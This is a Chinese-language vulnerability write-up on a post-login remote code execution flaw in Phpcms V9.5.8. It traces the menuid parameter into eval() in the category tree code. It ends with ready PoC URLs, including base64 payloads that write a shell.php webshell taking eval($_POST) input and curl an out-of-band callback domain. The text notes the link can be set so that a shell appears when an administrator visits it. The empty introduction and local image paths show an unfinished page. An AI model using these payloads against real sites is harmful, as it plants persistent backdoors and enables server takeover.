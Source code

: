 Phpcms V9.5.8 后台getshell
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.5.8

三、复现过程
------------

### 漏洞分析

代码位于`/phpcms/modules/content/content.php` 第472-532行

    public function public_categorys() {
        $show_header = '';
        $cfg = getcache('common','commons');
        $ajax_show = intval($cfg['category_ajax']);
        $from = isset($_GET['from']) && in_array($_GET['from'],array('block')) ? $_GET['from'] : 'content';
        $tree = pc_base::load_sys_class('tree');
        if($from=='content' && $_SESSION['roleid'] != 1) { 
            $this->priv_db = pc_base::load_model('category_priv_model');
            $priv_result = $this->priv_db->select(array('action'=>'init','roleid'=>$_SESSION['roleid'],'siteid'=>$this->siteid,'is_admin'=>1));
            $priv_catids = array();
            foreach($priv_result as $_v) {
                $priv_catids[] = $_v['catid'];
            }
            if(empty($priv_catids)) return '';
        }
        $categorys = array();
        if(!empty($this->categorys)) {
            foreach($this->categorys as $r) {
                if($r['siteid']!=$this->siteid ||  ($r['type']==2 && $r['child']==0)) continue;
                if($from=='content' && $_SESSION['roleid'] != 1 && !in_array($r['catid'],$priv_catids)) {
                    $arrchildid = explode(',',$r['arrchildid']);
                    $array_intersect = array_intersect($priv_catids,$arrchildid);
                    if(empty($array_intersect)) continue;
                }
                if($r['type']==1 || $from=='block') {
                    if($r['type']==0) {
                        $r['vs_show'] = "<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=".$r['catid']."&type=show' target='right'>[".L('content_page')."]</a>";
                    } else {
                        $r['vs_show'] ='';
                    }
                    $r['icon_type'] = 'file';
                    $r['add_icon'] = '';
                    $r['type'] = 'add';
                } else {
                    $r['icon_type'] = $r['vs_show'] = '';
                    $r['type'] = 'init';
                    $r['add_icon'] = "<a target='right' href='?m=content&c=content&menuid=".$_GET['menuid']."&catid=".$r['catid']."' onclick=javascript:openwinx('?m=content&c=content&a=add&menuid=".$_GET['menuid']."&catid=".$r['catid']."&hash_page=".$_SESSION['hash_page']."','')><img src='".IMG_PATH."add_content.gif' alt='".L('add')."'></a> ";
                }
                $categorys[$r['catid']] = $r;
            }
        }
        if(!empty($categorys)) {
            $tree->init($categorys);
                switch($from) {
                    case 'block':
                        $strs = "<span class='\$icon_type'>\$add_icon<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=list' target='right'>\$catname</a> \$vs_show</span>";
                        $strs2 = "<img src='".IMG_PATH."folder.gif'> <a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=category' target='right'>\$catname</a>";
                    break;
     
                    default:
                        $strs = "<span class='\$icon_type'>\$add_icon<a href='?m=content&c=content&a=\$type&menuid=".$_GET['menuid']."&catid=\$catid' target='right' onclick='open_list(this)'>\$catname</a></span>";
                        $strs2 = "<span class='folder'>\$catname</span>";
                        break;
                }
            $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);
        } else {
            $categorys = L('please_add_category');
        }
        include $this->admin_tpl('category_tree');
        exit;
    }

复制 文本

在当前函数开始下个断点

![1.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.5.8后台getshell/media/rId25.png)![2.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.5.8后台getshell/media/rId26.png)

跟到526行：

    $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);

复制 文本

进入了`get_treeview()`函数，跟入进去，

函数位于 `/phpcms/libs/classes/tree.class.php` 第206-239行。

    * @param $myid 表示获得这个ID下的所有子级
    * @param $effected_id 需要生成treeview目录数的id
    * @param $str 末级样式
    * @param $str2 目录级别样式
    * @param $showlevel 直接显示层级数，其余为异步显示，0为全部限制
    * @param $style 目录样式 默认 filetree 可增加其他样式如'filetree treeview-famfamfam'
    * @param $currentlevel 计算当前层级，递归使用 适用改函数时不需要用该参数
    * @param $recursion 递归使用 外部调用时为FALSE
    function get_treeview($myid,$effected_id='example',$str="<span class='file'>\$name</span>", $str2="<span class='folder'>\$name</span>" ,$showlevel = 0 ,$style='filetree ' , $currentlevel = 1,$recursion=FALSE) {
         $child = $this->get_child($myid);
         if(!defined('EFFECTED_INIT')){
            $effected = ' id="'.$effected_id.'"';
            define('EFFECTED_INIT', 1);
         } else {
            $effected = '';
         }
         $placeholder =  '<ul><li><span class="placeholder"></span></li></ul>';
         if(!$recursion) $this->str .='<ul'.$effected.'  class="'.$style.'">';
         foreach($child as $id=>$a) {
     
             @extract($a);
             if($showlevel > 0 && $showlevel == $currentlevel && $this->get_child($id)) $folder = 'hasChildren'; //如设置显示层级模式@2011.07.01
             $floder_status = isset($folder) ? ' class="'.$folder.'"' : '';     
             $this->str .= $recursion ? '<ul><li'.$floder_status.' id=\''.$id.'\'>' : '<li'.$floder_status.' id=\''.$id.'\'>';
             $recursion = FALSE;
             if($this->get_child($id)){
                 eval("\$nstr = \"$str2\";");
                 $this->str .= $nstr;
                 if($showlevel == 0 || ($showlevel > 0 && $showlevel > $currentlevel)) {
                     $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);
                 } elseif($showlevel > 0 && $showlevel == $currentlevel) {
                     $this->str .= $placeholder;
                 }
             } else {
                 eval("\$nstr = \"$str\";");
                 $this->str .= $nstr;
             }
             $this->str .=$recursion ? '</li></ul>': '</li>';
         }
         if(!$recursion)  $this->str .='</ul>';
         return $this->str;
     }

复制 文本

这里有个判断：

    if($this->get_child($id))

![3.png](/Users/aresx/Documents/VulWiki/.resource/PhpcmsV9.5.8后台getshell/media/rId27.png)

当第一次执行为ture的时候，还是会再次执行`get_treeview`的内容

    $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);

第二次执行的时候`$myid`由0变成了1，

这时候的`$newarr`为空，

if就不执行，转而执行elseif和else，而`$str`包含着`menuid`的值，也就是`${@phpinfo()}`
，这时候`eval()` 就执行了php代码。

### 漏洞复现

**常规poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@phpinfo()}`

**进阶版poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@(assert(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycpOw)))}`

> 密码1，这要管理员权限才能代码执行，修改下payload，管理员一访问就在当前域名的首页路径下生成shell。

`print_r(base64_encode("fputs(fopen('shell.php','w'),'<?php eval(\$_POST[2]);');system('curl '.\$_SERVER[\"SERVER_NAME\"].'www.0-sec.org');"));`

> 还有另一种payload，会回显的提醒。自动curl请求你的域名，然后回显网站url
>
> 先输出base64的地址，然后在替换下面的字符串> `https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=(${@(assert(eval(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMl0pOycpO3N5c3RlbSgnY3VybCAnLiRfU0VSVkVSWyJTRVJWRVJfTkFNRSJdLic0MzIxLm5yY3VmOS5jZXllLmlvJyk7))))})`

这个字符串有几个点提醒下自己，` assert()`函数执行执行一句php代码，所以在assert前面加个eval，执行多条语句。

参考链接
--------

> https://www.mrwu.red/web/2723.html
